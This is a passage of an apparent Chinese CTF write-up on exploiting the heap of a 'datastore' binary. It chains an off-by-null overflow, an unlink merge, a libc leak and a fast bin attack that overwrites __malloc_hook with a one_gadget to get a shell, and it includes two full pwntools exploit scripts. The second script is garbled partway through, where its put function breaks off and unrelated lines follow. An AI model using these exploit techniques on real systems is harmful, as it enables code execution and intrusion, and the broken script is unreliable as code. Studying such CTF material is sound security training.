
image.png (198.74 KB, 下载次数: 264)
[href="forum.php?mod=attachment&aid=MjQzNjAxNHw2Mjg4MWMzNnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNjAxNHw2Mjg4MWMzNnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:46 上传

理解图:


image.png (82.7 KB, 下载次数: 269)
[href="forum.php?mod=attachment&aid=MjQzNjAxOHw3MzZhOWYxNHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNjAxOHw3MzZhOWYxNHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)
2022-1-28 01:46 上传

因为`chunkB`是非`fast chunk`所以`free`后就进入了`unsort bin`中,那么此时再次`malloc`小于`0x100`则会从`chunkB`中进行分割分配出来

```
put('B1',0x80,'D'*0x80)
put('B2',0x40,'E'*0x40)
#此时剩余unsort bin空间0x100 - (0x90+0x50) = 0x20
```

此时堆空间图:


image.png (270.87 KB, 下载次数: 262)


# 堆利用分析

## 理解图

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNjAyNnxmYWY3OTQ4YnwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)

2022-1-28 01:47 上传



`image.png` (116.12 KB, 下载次数: 267)

## 释放与 unlink 合并

那么此时将 `chunkC` 释放后进行 `unlink` 合并，系统会根据 `chunkC` 的 `prev_size` 的偏移去找到 `chunkB1`，但是此时 `chunkB1` 是使用状态，且 `chunkC` 的 `P` 标志位为 0，那么程序会报错，所以就需要在释放 `chunkC` 前释放 `chunkB1`，这样就可以正常地合并 `unlink` 了。

```python
dele('B1') #先 这里不释放的话会报错
dele('C') #后
```

此时堆空间如图：



`image.png` (313.86 KB, 下载次数: 261)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNjAzOHxmMTM2ZTRhM3wxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)

2022-1-28 01:47 上传

## 泄露 libc

从上面可以看出，`chunkC` 通过 `prev_size` 与 `chunkB1` 进行合并后，`chunkB2` 在程序中还是被认为使用状态，那么在打印数据时，`chunkB2` 是否可以正常打印？根据 `unsort attack` 可知，如果将 `chunkB2` 放入 `unsort bin` 再打印数据，即可获得 `libc` 地址。

直接释放 `chunkB2` 肯定是不可行的，那么这里可以再次通过 `unsort bin` 进行分割，使分割后存入 `unsort bin` 的 `fd` 和 `bk` 刚好在 `chunkB2` 的 `data` 区域，那么就可以打印了，OK。

```python
put('B1',0x80,'F'*0x80) #切割unsotbin后 chunk_B2将位于unsort bin头部

get('B2') #打印chunkB2

ru('bytes]:\n')

libc_base  = uu64(rc(6)) - (0x7fe31cd6cb78 - 0x7fe31c9a9000)

success("libc",libc_base)
```

那么此时就可以获得 `__malloc_hook` 的地址了，然后进行 `fast bin attack`，将 `fast chunk` 写入到 `__malloc_hook-0x23` 处，再进行 `one_gadget` 即可 `getshell`。

## fast bin attack

经过上一步的泄露 `libc`，此时 `chunkB2` 是一个 `unsort bin`，那么再次释放 `chunkB1` 又会发生合并，具体实现如下：

```python
dele('B1') #重新合并unsort bin
payload = b'\x00'*0x88 + p64(0x70) #对应着__malloc_hook-0x23处的fast chunk
payload += b'\x00'*0x68+ p64(0x21) #绕过free的检查
put_s('B1',0x190,payload) #重新拿回chunk 并写入数据 将chunkB2变为fast bin
dele('B2') #释放fast bin
```

`fast bin attack` 实现任意地址写需要对处于 `fast bin` 的该 `chunk` 的 `fd` 进行修改，使它指向目的地址处，那么就需要再改一次 `chunkB2` 的数据，如下：

```python
dele('B1')

payload = b'\x00'*0x88 + p64(0x70) + p64(malloc_hook-0x23)

put_s('B1',0x190,payload) #修改fd  #这个put_s是我用来区分字节流和字符流的
```

此时的堆空间：



`image.png` (272.6 KB, 下载次数: 269)

[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjQzNjA0N3xiNDhjY2MxOHwxNzkzNTc2Mjg4fDE2ODA4NnwxNTgxNTUy&nothumb=yes)

2022-1-28 01:47 上传

最后就是常见的 `fast bin attack` 手段：

```python
payload = b'\x00'*0x13 + p64(one[0] + libc_base) #第二次malloc得到__malloc_hook-0x23
put('D',0x60,'D'*0x60)
put_s('E',0x60,payload)
```

## 最终 exp

```python
# -*-coding:utf-8 -*

from pwn import *

import sys

context.log_level = 'debug'

context.arch = 'amd64'

SigreturnFrame(kernel = 'amd64')

binary = "./datastore"

global p

local = 1

if local:

    p = process(binary)

    e = ELF(binary)

    libc = e.libc

else:

    p = remote("111.200.241.244","58782")

    e = ELF(binary)

    libc = e.libc

    #libc = ELF('./libc_32.so.6')

sd = lambda s:p.send(s)

sl = lambda s:p.sendline(s)

rc = lambda s:p.recv(s)

ru = lambda s:p.recvuntil(s)

sa = lambda a,s:p.sendafter(a,s)

sla = lambda a,s:p.sendlineafter(a,s)

uu32 = lambda data :u32(data.ljust(4, b'\0'))

uu64 = lambda data :u64(data.ljust(8, b'\0'))

u64Leakbase = lambda offset :u64(ru("\x7f")[-6: ] + b'\0\0') - offset

u32Leakbase = lambda offset :u32(ru("\xf7")[-4: ]) - offset

it = lambda :p.interactive()

def z(s='b main'):

 gdb.attach(p,s)

def success(string,addr):

    print('\033[1;31;40m%20s-->0x%x\033[0m'%(string,addr))

def pa(s='暂停!'):

  log.success('当前执行步骤 -> '+str(s))

  pause()

one = [0x45206,0x4525a,0xcc673,0xcc748,0xefa00,0xf0897,0xf5e40,0xef9f4] #2.23

#one = [0x45226,0x4527a,0xcd173,0xcd248,0xf03a4,0xf03b0,0xf1247,0xf67f0]

#idx = int(sys.argv[1])

def put_s(a,b,c):

    sla("PROMPT: Enter command:\n",'PUT')

    sla("PROMPT: Enter row key:\n",a)

    sla("PROMPT: Enter data size:\n",str(b))

    sla("PROMPT: Enter data:\n",c.ljust(b,b'\x00'))

def put(a,b,c):

    sla("PROMPT: Enter command:\n",'PUT')

    sla("PROMPT: Enter row key:\n",a)

    sla("PROMPT: Enter data size:\n",str(b))

    sla("PROMPT: Enter data:\n",c.ljust(b,'\x00'))

def dump():

    sla("PROMPT: Enter command:\n",'DUMP')

def get(a):

    sla("PROMPT: Enter command:\n",'GET')

    sla("PROMPT: Enter row key:\n",a)

def dele(a):

    sla("PROMPT: Enter command:\n",'DEL')

    sla("PROMPT: Enter row key:\n",a)

#------------start----------------

for i in range(10):

    put(str(i), 1, str(i))

for i in range(10):

    dele(str(i))

#填充chunk至bin中 这样下面malloc的chunk就可以物理邻边

#------------架构posion null byte----------------

put('A',0x70,'A'*0x70) #不能是unsort bin不然会和B合并

put('B',0x100,'B'*0x100) #必须是unsort bin用于后面的分割unsort bin

put('C',0x100,'C'*0x100) #必须是unsort bin才能在释放后根据prev_size进行向上合并

put('P',0x20,'P') #用于防止合并进top chunk

dele('A') #free chunkA 使下面的key_ptr拿到这块

dele('B') #posion null byte结构

put('A'*0x78,0x10,'A'*0x10)#off-by-null #key_ptr的默认大小为0x20 当大小为0x78时会重新分配,并且可以溢出一字节

#------------unlink----------------

put('B1',0x80,'D'*0x80)

put('B2',0x40,'E'*0x40)

dele('B1') #先 这里不释放的话会报错

dele('C') #后

#------------leak libc----------------

put('B1',0x80,'F'*0x80) #切割unsotbin后 chunk_B2将位于unsort bin头部

get('B2') #打印

ru('bytes]:\n')

libc_base  = uu64(rc(6)) - (0x7fe31cd6cb78 - 0x7fe31c9a9000)

success("libc",libc_base)

#------------fast bin attack----------------

malloc_hook = libc_base + libc.symbols['__malloc_hook']

success("__malloc_hook",malloc_hook)

dele('B1') #重新合并unsort bin

payload = b'\x00'*0x88 + p64(0x70) #对应着__malloc_hook-0x23处的fast chunk

payload += b'\x00'*0x68+ p64(0x21) #绕过free的检查

put_s('B1',0x190,payload) #重新拿回chunk 并写入数据 将chunkB2变为fast bin

dele('B2') #释放fast bin

dele('B1')

payload = b'\x00'*0x88 + p64(0x70) + p64(malloc_hook-0x23)

put_s('B1',0x190,payload) #修改fd #这个put_s是我用来区分字节流和字符流的

#------------one_gadget----------------

put('D',0x60,'D'*0x60)

payload = b'\x00'*0x13 + p64(one[1] + libc_base) #第二次malloc得到__malloc_hook-0x23

put_s('E',0x60,payload)

sla("PROMPT: Enter command:\n",'DEL') #这里不能使用PUT因为PUT第一个malloc时会对返回值进行判断malloc失败则退出

#------------end----------------

it()
```

### 4. 方法二 exp

其实就是上面的精简版。


```python
# -*-coding:utf-8 -*
from pwn import *
import sys

context.log_level = 'debug'
context.arch = 'amd64'
SigreturnFrame(kernel = 'amd64')

binary = "./datastore"

global p
local = 1
if local:
    p = process(binary)
    e = ELF(binary)
    libc = e.libc
else:
    p = remote("111.200.241.244","58782")
    e = ELF(binary)
    libc = e.libc
    #libc = ELF('./libc_32.so.6')

sd = lambda s:p.send(s)
sl = lambda s:p.sendline(s)
rc = lambda s:p.recv(s)
ru = lambda s:p.recvuntil(s)
sa = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)
uu32 = lambda data :u32(data.ljust(4, b'\0'))
uu64 = lambda data :u64(data.ljust(8, b'\0'))
u64Leakbase = lambda offset :u64(ru("\x7f")[-6: ] + b'\0\0') - offset
u32Leakbase = lambda offset :u32(ru("\xf7")[-4: ]) - offset
it = lambda :p.interactive()

def z(s='b main'):
 gdb.attach(p,s)

def success(string,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(string,addr))

def pa(s='暂停!'):
  log.success('当前执行步骤 -> '+str(s))
  pause()
one = [0x45206,0x4525a,0xcc673,0xcc748,0xefa00,0xf0897,0xf5e40,0xef9f4] #2.23
#one = [0x45226,0x4527a,0xcd173,0xcd248,0xf03a4,0xf03b0,0xf1247,0xf67f0]
#idx = int(sys.argv[1])

def put(a,b,c):
    sla("PROMPT: Enter command:\n",'PUT')
    sla("PROMPT: Enter row key:\n",a)
    sla("PROMPT: Enter data size:\n",str(b))
    if len(c) size
put('P',0x20,'P'*0x20)
#------------------------------
dele('a') #首先释放chunka 对于下面释放chunkc后发生向上合并的检查绕过
dele('b') #重新分配到key_ptr
dele(b'b'*0x1f0 +p64(0x4b0))
dele('c') #向上合并
#------------------------------
put('a',0x200,'A'*0x200)
get('e') #打印动态地址
ru('\n')
libc_base  = uu64(rc(6)) - (0x7f0eea245b78-0x7f0ee9e82000) 
malloc = libc_base + libc.symbols['__malloc_hook']
success('libc',libc_base)
success('malloc_hook',malloc)
#----------------------------
dele('d') #放入fast bin attack
put('f',0x40,b'f'*0x20 + p64(0) + p64(0x71) + p64(malloc-0x23))
put('g',0x60,b'g')
put('x',0x60,p8(0)*0x13 + p64(libc_base + one[1]))
#----------------------------
sla("PROMPT: Enter command:\n",'DEL')
it()
```
